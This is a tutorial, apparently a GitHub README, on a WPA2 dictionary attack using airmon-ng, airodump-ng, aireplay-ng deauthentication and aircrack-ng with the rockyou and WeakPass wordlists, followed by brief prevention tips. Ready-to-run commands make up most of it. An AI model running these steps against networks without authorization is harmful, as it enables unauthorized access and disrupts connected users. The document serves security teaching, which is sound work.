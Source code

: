 # Brute_Force-Dictionary_Attack_on_WiFi
# Brute Force - Dictionary Attack on WiFi

## WPA2

**Practical Tutorial**

**February 11, 2025**

---

## 1. Introduction

This tutorial demonstrates how to perform a Dictionary Attack on a WiFi network secured with WPA2. The attack is based on capturing the handshake, which occurs when a device connects to the network, and comparing it against a known password dictionary.

> **Note:** This material is provided for educational purposes only. Testing networks without authorization is illegal.

---

## 2. Phase 1: Capturing the Handshake

To proceed, we need to capture the handshake of the target network.

### 2.1 Steps

1. Enable monitor mode on the WiFi card:
   ```bash
   airmon-ng start wlan0
   ```
2. Identify the target network:
   ```bash
   airodump-ng wlan0mon
   ```
   > **Note:** Write down the BSSID of the network and its channel (CH).

3. Create a folder to save the handshake:
   ```bash
   mkdir -p ~/Desktop/handshake
   ```

4. Capture network traffic and save the handshake:
   ```bash
   airodump-ng -c [Channel] --bssid [BSSID] -w ~/Desktop/handshake/handshake wlan0mon
   ```

5. Force a client to disconnect to capture the handshake (optional):
   ```bash
   aireplay-ng -0 10 -a [BSSID] wlan0mon
   ```
   > Once the client reconnects, the handshake will be captured and saved in:
   > `~/Desktop/handshake/handshake.cap`

---

## 3. Phase 2: Dictionary Attack

Now we can compare the captured handshake with a password dictionary.

### 3.1 Using a Default Dictionary

Kali Linux includes some predefined dictionaries. A good starting point is the `rockyou.txt` dictionary, located at:

```bash
/usr/share/wordlists/rockyou.txt.gz
```

Extract it before using:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

Start the cracking process:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] ~/Desktop/handshake/handshake.cap
```

### 3.2 Using Larger Dictionaries

If the password is not found, try using larger dictionaries available on:

- **WeakPass** – A database with massive lists of real passwords.

Download a larger dictionary and use it with the following command:

```bash
aircrack-ng -w [dictionary_path] -b [BSSID] ~/Desktop/handshake/handshake.cap
```

---

## 4. Phase 3: Restoring the WiFi Card

After completing the attack, it is important to restore the WiFi card to its original state.

1. Disable monitor mode:
   ```bash
   airmon-ng stop wlan0mon
   ```

2. Restart network services:
   ```bash
   service networking restart
   service NetworkManager restart
   ```

3. Verify that the card is back to normal mode:
   ```bash
   iwconfig
   ```
   > If the card is back to `wlan0`, the restoration was successful.

---

## 5. Phase 4: Prevention

To protect against this type of attack:

- Use long and complex passwords with numbers and special characters.
- Change the WiFi password periodically.
- Use WPA3 if available.
- Configure MAC address filtering to limit authorized devices.

---

## 6. Conclusion

We have seen how a dictionary attack can be used to discover WiFi passwords by capturing the handshake and using a password dictionary. However, the effectiveness depends on the quality and size of the dictionary.

> **Note:** This tutorial is for educational purposes only. Unauthorized use is illegal.
